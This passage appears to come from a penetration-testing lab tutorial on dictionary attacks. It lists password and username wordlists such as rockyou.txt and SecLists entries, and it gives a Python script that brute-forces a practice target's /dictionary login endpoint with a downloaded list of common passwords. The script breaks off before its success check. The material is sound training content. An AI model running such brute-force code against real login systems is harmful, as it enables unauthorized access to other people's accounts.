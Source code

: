 By deploying this targeted wordlist in a dictionary attack, the attacker significantly elevates their likelihood of successfully cracking employee passwords compared to a purely random brute-force endeavor.

## Building and Utilizing Wordlists

Wordlists can be obtained from various sources, including:

- `Publicly Available Lists`: The internet hosts a plethora of freely accessible wordlists, encompassing collections of commonly used passwords, leaked credentials from data breaches, and other potentially valuable data. Repositories likeÂ [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)Â offer various wordlists catering to various attack scenarios.
- `Custom-Built Lists`: Penetration testers can craft their wordlists by leveraging information gleaned during the reconnaissance phase. This might include details about the target's interests, hobbies, personal information, or any other data for password creation.
- `Specialized Lists`: Wordlists can be further refined to target specific industries, applications, or even individual companies. These specialized lists increase the likelihood of success by focusing on passwords that are more likely to be used within a particular context.
- `Pre-existing Lists`: Certain tools and frameworks come pre-packaged with commonly used wordlists. For instance, penetration testing distributions like ParrotSec often include wordlists likeÂ `rockyou.txt`, a massive collection of leaked passwords, readily available for use.

Here is a table of some of the more useful wordlists for login brute-forcing:

|Wordlist|Description|Typical Use|Source|
|---|---|---|---|
|`rockyou.txt`|A popular password wordlist containing millions of passwords leaked from the RockYou breach.|Commonly used for password brute force attacks.|[RockYou breach dataset](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)|
|`top-usernames-shortlist.txt`|A concise list of the most common usernames.|Suitable for quick brute force username attempts.|[SecLists](https://github.com/danielmiessler/SecLists/tree/master)|
|`xato-net-10-million-usernames.txt`|A more extensive list of 10 million usernames.|Used for thorough username brute forcing.|[SecLists](https://github.com/danielmiessler/SecLists/tree/master)|
|`2023-200_most_used_passwords.txt`|A list of the 200 most commonly used passwords as of 2023.|Effective for targeting commonly reused passwords.|[SecLists](https://github.com/danielmiessler/SecLists/tree/master)|
|`Default-Credentials/default-passwords.txt`|A list of default usernames and passwords commonly used in routers, software, and other devices.|Ideal for trying default credentials.|[SecLists](https://github.com/danielmiessler/SecLists/tree/master)|

## Throwing a dictionary at the problem

**To follow along, start the target system via the question section at the bottom of the page.**

The instance application creates a route (`/dictionary`) that handles POST requests. It expects a `password` parameter in the request's form data. Upon receiving a request, it compares the submitted password against the expected value. If there's a match, it responds with a JSON object containing a success message and the flag. Otherwise, it returns an error message with a 401 status code (Unauthorized).

Copy and paste this Python script below asÂ `dictionary-solver.py`Â onto your machine. You only need to modify the IP and port variables to match your target system information.

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
```